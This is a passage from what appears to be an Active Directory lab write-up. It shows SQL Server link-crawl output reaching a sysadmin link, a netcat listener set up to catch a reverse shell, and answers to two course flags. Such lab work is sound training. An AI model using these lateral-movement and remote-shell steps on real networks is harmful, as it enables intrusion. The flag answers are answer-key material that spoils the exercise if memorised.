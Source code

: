 ```
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL45.EU.EUROCORP.LOCAL}

Version     : SQL Server 2019
Instance    : EU-SQL45
CustomQuery :
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL45.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

On the listener:

```
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
$env:username
$env:computername
```

<figure><img src="../../.gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>

### Flag 37 \[dcorp-mssql] - First SQL Server linked to dcorp-mssql 🚩

The first SQL Server linked to dcorp-mssql is DCORP-SQL1.

```
Links on this server: DCORP-SQL1
```

### Flag 38 \[dcorp-mssql] - Name of SQL Server user used to establish link between dcorp-sql1 and dcorp-mgmt 🚩

sqluser is the name of SQL Server user used to establish link between dcorp-sql1 and dcorp-mgmt.

```
Server: EU-SQLX
- Link IsSysAdmin: 1
```

